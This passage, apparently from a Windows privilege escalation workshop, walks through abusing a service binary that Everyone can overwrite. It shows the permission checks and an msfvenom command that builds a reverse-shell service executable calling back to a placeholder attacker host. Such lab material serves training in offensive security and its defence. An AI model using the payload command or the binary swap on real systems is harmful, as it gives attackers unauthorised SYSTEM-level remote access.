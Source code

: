 Next up let's tackle modifiable service binaries.

````
=== Modifiable Service Binaries ===

  Name             : filepermsvc
  DisplayName      : File Permissions Service
  Description      : 
  State            : Stopped
  StartMode        : Manual
  PathName         : "C:\Program Files\File Permissions Service\filepermservice.exe"
  ````

 So there is a service binary at that path that our user has full control over. Typically application developers will give users access to the folders of their binaries when they want to ease update processes or allow users to import custom modules/code. In this case, where the binary is tied to a service that was registered as NT\System, we can overwrite that binary to achieve privilege escalation.
 
 First let's verify the permissions on that file.
 
 ````
 PS C:\Program Files\File Permissions Service> icacls.exe *.exe
filepermservice.exe Everyone:(F)
                    NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
PS C:\Program Files\File Permissions Service> 
````

We can see that everyone has full control: Everyone:(F).

So let's use msfvenom to generate a service binary that we can use to replace that vulnerable service:

````
root@kali:~/LPEWorkshop# msfvenom -p windows/shell_reverse_tcp LHOST=YOURIPHERE LPORT=31337 -f exe-service > filepermservice.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe-service file: 15872 bytes
````

Note that we have to name it the same thing as the original service.

So now we replace the original service: (Note, if the service is running, it's difficult to replace this binary. This means that you could have a startup script that would try to swap the binaries before the service started but otherwise, you are out of luck. Luckily for us, the service is NOT running.)

Check the service one more time:
````
PS C:\Users\user\Downloads> sc.exe qc filepermsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: filepermsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\File Permissions Service\filepermservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : File Permissions Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
````